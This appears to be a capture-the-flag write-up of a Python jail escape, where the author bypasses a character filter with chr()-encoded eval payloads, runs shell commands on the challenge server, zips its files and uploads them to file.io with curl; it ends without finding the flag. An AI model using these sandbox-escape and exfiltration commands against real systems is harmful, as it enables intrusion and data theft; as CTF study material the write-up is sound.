

# Krampus' Code Blocks
Misc

## Challenge 

	K͎r̮̦am̖̩̹̻p̙ṵ̦͡s̠̱̝͉̤͡ ̧̩w̯͘á̙̥̱n̛̼t̼̦s̙͇̠̩͍̝̟ ̷͉͉t̶o̵͇̮̤ ̷̘̺̯͍̳p̞̗̟l̼̩͈ḁy̙͝ ̟͇̞̺͝a̢͍͓̝̻̭ͅ ̜̖̭g̹̼͜a͈̱̺̤͎ͅme͜.̭

	Server: nc 199.247.6.180 14000

	Authors: PinkiePie1189 + Milkdrop + Vlad

## Solution

	$ nc 199.247.6.180 14000
	<Server>: Krampus stares at you. Be nice.
	<You>: 1
	<Server>: Krampus approaches.
	<You>: 1
	<Server>: Krampus approaches.
	<You>: 1
	<Server>: Closer.
	<You>: 1
	<Server>: Closer.
	<You>: 1
	<Server>: Krampus is next to you. Act quickly!

After we get the prompt `Krampus is next to you. Act quickly!`, we can send queries.

###  Python Jail Escape Challenge

References:
- http://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/
- https://lbarman.ch/blog/pyjail/
- https://zolmeister.com/2013/05/escaping-python-sandbox.html
- https://sysexit.wordpress.com/2012/10/26/hacklu-ctf-2012-python-jail-200-write-up/
- https://x-c3ll.github.io/posts/impeldown-python-jail/

Now after playing around, I found out This is a Python jail escape challenge

	<You>: help()

	<Krampus>: 
	Welcome to Python 2.7!  This is the online help utility.

	If this is your first time using Python, you should definitely check out
	the tutorial on the Internet at http://docs.python.org/2.7/tutorial/.

	Enter the name of any module, keyword, or topic to get help on writing
	Python programs and using Python modules.  To quit this help utility and
	return to the interpreter, just type "quit".

	To get a list of available modules, keywords, or topics, type "modules",
	"keywords", or "topics".  Each module also comes with a one-line summary
	of what it does; to list the modules whose summaries contain a given word
	such as "spam", type "modules spam".

	help> 
	You are now leaving help and returning to the Python interpreter.
	If you want to ask for help on a particular object directly from the
	interpreter, you can type "help(object)".  Executing "help('string')"
	has the same effect as typing a particular string at the help> prompt.
	None
	<You>: 

Many chars are not allowed: symbols like `*/[]'".` and spaces are not allowed

	<You>: str(help)
	<Krampus>: Type help() for interactive help, or help(object) for help about object.
	<You>: str(help)[1]
	<Server>: Krampus grows angry.
	<You>: list(str(help))
	<Krampus>: ['T', 'y', 'p', 'e', ' ', 'h', 'e', 'l', 'p', '(', ')', ' ', 'f', 'o', 'r', ' ', 'i', 'n', 't', 'e', 'r', 'a', 'c', 't', 'i', 'v', 'e', ' ', 'h', 'e', 'l', 'p', ',', ' ', 'o', 'r', ' ', 'h', 'e', 'l', 'p', '(', 'o', 'b', 'j', 'e', 'c', 't', ')', ' ', 'f', 'o', 'r', ' ', 'h', 'e', 'l', 'p', ' ', 'a', 'b', 'o', 'u', 't', ' ', 'o', 'b', 'j', 'e', 'c', 't', '.']

Many functions are allowed.

	<You>: print(1)
	<Krampus>: 1

	<You>: print()
	<Krampus>: ()
	

but each query is a different instance. As seen, exiting does not show a `<Server>` prompt

	<You>: exit(1)
	<You>: a=1
	<You>: print(a)
	<Server>: Krampus stares back.
	
So now let's try some strings usingchr() function. We can also make eval() calls

	// This is A+B+C
	<You>: chr(65)+chr(66)+chr(67)
	<Krampus>: ABC
	
	// This is eval(0+3)
	<You>: eval(chr(48)+chr(43)+chr(51))
	<Krampus>: 3

---

I created a helper script to do conversions.

Now let's try `__import__('os').system('ls -la')`.

	>>> from helper import *
	>>> 'eval(' + krampus_string("__import__('os').system('ls -la')") + ')'

	'eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(108)+chr(115)+chr(32)+chr(45)+chr(108)+chr(97)+chr(39)+chr(41))'	'chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(108)+chr(115)+chr(39)+chr(41)'

And send it... Success!

	<You>: eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(108)+chr(115)+chr(32)+chr(45)+chr(108)+chr(97)+chr(39)+chr(41))
	<Krampus>: total 29592
	drwxrwxrwx. 1 root   root       4096 Dec 22 05:24 .
	drwxr-xr-x. 1 root   root       4096 Dec 21 22:12 ..
	-rw-r--r--. 1 friend friend        2 Dec 22 05:24 banned-ips.json
	-r-xr-xr-x. 1 root   root          3 Dec 18 19:16 banned-players.json
	-r-xr-xr-x. 1 root   root         45 Dec 16 20:55 eula.txt
	-r-xr-xr-x. 1 root   root       2323 Dec 20 21:49 host.py
	-r-xr-xr-x. 1 root   root        293 Dec 16 20:55 instructions.txt
	-r-xr-xr-x. 1 root   root         54 Dec 16 20:55 krampus.py
	drwxr-xr-x. 2 friend friend     4096 Dec 22 05:23 logs
	-r-xr-xr-x. 1 root   root          3 Dec 18 19:16 ops.json
	-r-xr-xr-x. 1 root   root   30222121 Dec 16 20:55 server.jar
	-rwxr-xr-x. 1 friend root        863 Dec 22 05:24 server.properties
	-rw-r--r--. 1 friend friend      216 Dec 22 07:52 usercache.json
	-rw-r--r--. 1 friend friend        2 Dec 22 05:24 whitelist.json
	drwxr-xr-x. 1 friend root       4096 Dec 22 08:16 world
	0

Cat out the source code `__import__('os').system('cat host.py')`... Our guess was correct about Jail escape.

	<You>: eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(99)+chr(97)+chr(116)+chr(32)+chr(104)+chr(111)+chr(115)+chr(116)+chr(46)+chr(112)+chr(121)+chr(39)+chr(41))
	<Krampus>: 

> See [host.py](host.py)

Now where is the darn flag?

Cat out `instructions.txt`

	<You>: eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(99)+chr(97)+chr(116)+chr(32)+chr(105)+chr(110)+chr(115)+chr(116)+chr(114)+chr(42)+chr(39)+chr(41))
	<Krampus>: Hello. Krampus congratulates you for successfully finishing his challenge.
	He'd now like to play a game. Inside this folder, you will find Krampus' favourite game. Start up the server, and join Krampus in his game.

	(For an optimal game experience, run the server with around 80MB of memory.)
	0

### Retrieve the folder - ZIP it first

Okay so we need to extract out the folder so its easier to play locally.

Let's first zip up all the contents to make it easier to download. Apparently, I tried using system('zip ...') command doesn't work through.

Luckily, we can do so using a [Python one-liner `shutil.make_archive(output_filename, 'zip', dir_name)`](https://www.guru99.com/python-zip-file.html)

We have access to the /tmp/ directory, so let's place it there.

	# 'eval(' + krampus_string("__import__('shutil').make_archive('/tmp/derp3.zip','zip', '.')") + ')'
	
	'eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(115)+chr(104)+chr(117)+chr(116)+chr(105)+chr(108)+chr(39)+chr(41)+chr(46)+chr(109)+chr(97)+chr(107)+chr(101)+chr(95)+chr(97)+chr(114)+chr(99)+chr(104)+chr(105)+chr(118)+chr(101)+chr(40)+chr(39)+chr(47)+chr(116)+chr(109)+chr(112)+chr(47)+chr(100)+chr(101)+chr(114)+chr(112)+chr(51)+chr(46)+chr(122)+chr(105)+chr(112)+chr(39)+chr(44)+chr(39)+chr(122)+chr(105)+chr(112)+chr(39)+chr(44)+chr(32)+chr(39)+chr(46)+chr(39)+chr(41))'

Okay so after a while, we can see the contents

	# 'eval(' + krampus_string("__import__('os').system('ls -lha ../tmp')") + ')'

	<You>: eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(108)+chr(115)+chr(32)+chr(45)+chr(108)+chr(97)+chr(32)+chr(46)+chr(46)+chr(47)+chr(116)+chr(109)+chr(112)+chr(39)+chr(41))

	<Krampus>: total 58532
	drwxrwxrwt. 1 root   root       4096 Dec 22 10:54 .
	drwxr-xr-x. 1 root   root       4096 Dec 21 22:12 ..
	-rw-r--r--. 1 friend friend 29948023 Dec 22 10:49 derp3.zip.zip
	...

### Retrieve the folder - Upload online

Upload the file using https://file.io via command line

	# 'eval(' + krampus_string("__import__('os')
	  .system('curl -F file=@/tmp/derp3.zip.zip https://file.io > /tmp/out.txt')") + ')'

	'eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(99)+chr(117)+chr(114)+chr(108)+chr(32)+chr(45)+chr(70)+chr(32)+chr(102)+chr(105)+chr(108)+chr(101)+chr(61)+chr(64)+chr(47)+chr(116)+chr(109)+chr(112)+chr(47)+chr(100)+chr(101)+chr(114)+chr(112)+chr(51)+chr(46)+chr(122)+chr(105)+chr(112)+chr(46)+chr(122)+chr(105)+chr(112)+chr(32)+chr(104)+chr(116)+chr(116)+chr(112)+chr(115)+chr(58)+chr(47)+chr(47)+chr(102)+chr(105)+chr(108)+chr(101)+chr(46)+chr(105)+chr(111)+chr(32)+chr(62)+chr(32)+chr(47)+chr(116)+chr(109)+chr(112)+chr(47)+chr(111)+chr(117)+chr(116)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41))'

Then cat out the results

	# 'eval(' + krampus_string("__import__('os').system('cat /tmp/out.txt')") + ')'

	<You>: eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(116)+chr(109)+chr(112)+chr(47)+chr(111)+chr(117)+chr(116)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41))

	<Krampus>: {"success":true,"key":"isw6QJ","link":"https://file.io/isw6QJ","expiry":"14 days"}0

Phew, that was a tough ride. Finally we have the contents downloaded

> [derp3.zip.zip](derp3.zip.zip)

### Play the Game

Start the JAR and we see this. Typical Minecraft LAN server. 

	$ java -jar server.jar
	[19:13:30 INFO]: Starting minecraft server version 1.12.2
	[19:13:30 INFO]: Loading properties
	[19:13:30 INFO]: Default game type: ADVENTURE
	[19:13:30 INFO]: Generating keypair
	[19:13:30 INFO]: Starting Minecraft server on *:25565
	[19:13:30 INFO]: Using default channel type
	[19:13:31 WARN]: **** SERVER IS RUNNING IN OFFLINE/INSECURE MODE!
	[19:13:31 WARN]: The server will make no attempt to authenticate usernames. Beware.
	[19:13:31 WARN]: While this makes the game possible to play without internet access, it also opens up the ability for hackers to connect with any username they choose.
	[19:13:31 WARN]: To change this, set "online-mode" to "true" in the server.properties file.
	[19:13:31 WARN]: Failed to save user banlist: 

[We need to connect to it](https://minecraft.gamepedia.com/Tutorials/Setting_up_a_server#Connect_to_the_Minecraft_server)

---

Grrr, need to download Minecraft... 

	-Play Demo World
	-Esc > Open to Lan
	- Game Mode: Creative
	- Allow Cheats: ON
	/give Player minecraft:command_block

Finally I got to the Minecraft world

I cannot freaking find the flag because I'm in the Demo Version...

I gave up here, but I'm really close...

## Flag

	??
